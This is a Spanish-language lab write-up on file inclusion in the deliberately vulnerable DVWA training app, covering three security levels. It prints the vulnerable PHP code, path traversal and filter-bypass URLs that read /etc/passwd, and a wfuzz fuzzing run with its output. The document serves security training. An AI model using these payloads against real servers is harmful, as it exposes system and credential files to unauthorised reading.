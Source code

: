 # FI

File inclusion es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `passwd` o para leer el código fuente de la aplicación.

La vulnerabilidad se puede distinguir en dos tipos:

- **[Local File Inclusion (LFI)](LFI.md)**: Se produce cuando el archivo que se incluye se encuentra en el mismo servidor que la aplicación vulnerable.
- **[Remote File Inclusion (RFI)](RFI.md)**: Se produce cuando el archivo que se incluye se encuentra en otro servidor.

Durante el desarrollo de la actividad se descrubió que existia también el fichero `file4.php` que no se mencionaba en la documentación pero que si que se podía acceder a el mediante la URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=file4.php
```

![file4](/FI/assets/file4.png)

## Nivel: `bajo`

### Código vulnerable
```php
$file = $_GET[ 'page' ];
```

Para comprobar que la aplicación es vulnerable a la vulnerabilidad de `FI` se puede utilizar la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

![check1](/FI/assets/check-low.png)

---

Durante la realización del nivel bajo se probó la herramienta `wfuzz` para hacer fuzzing de la URI, pero no se obtuvo ningún resultado extra.
Realmente el uso de la herramienta no nos ayudo a solucionar el reto, pero si que nos ayudo a entender como funciona la herramienta y posibles usos de la misma.

```
wfuzz -c --hl 81 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -b "security=low; PHPSESSID=eboalr1aom47l322etbqjebovg" "http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php"
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php
Total requests: 81643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001463:   200        92 L     267 W      3491 Ch     "fi"                                                                                                                                                                       

Total time: 0
Processed Requests: 81643
Filtered Requests: 81642
Requests/sec.: 0
```

## Nivel: `medio`


### Código vulnerable

```php
$file = $_GET[ 'page' ];
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
```

Para comprobar que la aplicación es vulnerable a la vulnerabilidad de `FI` se puede utilizar la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```

![check-mid](/FI/assets/check-mid.png)

## Nivel: `alto`

### Código vulnerable

```php
$file = $_GET[ 'page' ];
if (!fnmatch( "file*", $file ) && $file != "include.php") {exit}
```

Para comprobar que la aplicación es vulnerable a la vulnerabilidad de `FI` se puede utilizar la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
```

![check-high](/FI/assets/check-high.png)

## Referencias

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HTB Academy](https://academy.hackthebox.com/module/77/section/725)
